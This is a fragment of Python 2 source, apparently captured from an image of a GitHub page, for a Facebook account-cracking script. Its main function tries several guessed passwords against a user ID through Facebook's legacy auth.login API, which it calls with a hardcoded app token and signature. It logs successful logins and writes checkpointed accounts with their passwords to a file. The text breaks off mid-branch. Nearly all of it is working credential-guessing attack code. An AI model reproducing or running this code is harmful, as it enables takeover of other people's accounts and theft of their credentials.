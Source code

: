 def main(arg):
	global cpb,oks
	user = arg
	try:
		a = session.get("https://graph.facebook.com/"+user+"/?access_token="+toket)
		b = json.loads(a.text)
	except OSError:
		pass
	try:
		a = session.get("https://graph.facebook.com/"+user+"/?access_token="+toket)
		b = json.loads(a.text)
		data1 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass1 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
		q1 = json.loads(data1.text)
		if "access_token" in q1:
			print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass1
			oks.append(user+pass1)
		else:
			if "www.facebook.com" in q1["error_msg"]:
				print "[Checkpoint] " + user + " | " + pass1
				cps = open("checkpoint.txt", "a")
				cps.write(user+"|"+pass1+"\n")
				cps.close()
				cpb.append(user+pass1)
			else:
				data2 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass2 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
				q2 = json.loads(data2.text)
				if "access_token" in q2:
					print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass2
					oks.append(user+pass2)
				else:
					if "www.facebook.com" in q2["error_msg"]:
						print "[Checkpoint] " + user + " | " + pass2
						cps = open("checkpoint.txt", "a")
						cps.write(user+"|"+pass2+"\n")
						cps.close()
						cpb.append(user+pass2)
					else:
						data3 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass3 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
						q3 = json.loads(data3.text)
						if "access_token" in q3:
							print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass3
							oks.append(user+pass3)
						else:
							if "www.facebook.com" in q3["error_msg"]:
								print "[Checkpoint] " + user + " | " + pass3
								cps = open("checkpoint.txt", "a")
								cps.write(user+"|"+pass3+"\n")
								cps.close()
								cpb.append(user+pass3)
							else:
								data4 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass4 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
								q4 = json.loads(data4.text)
								if "access_token" in q4:
									print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass4
									oks.append(user+pass4)
								else: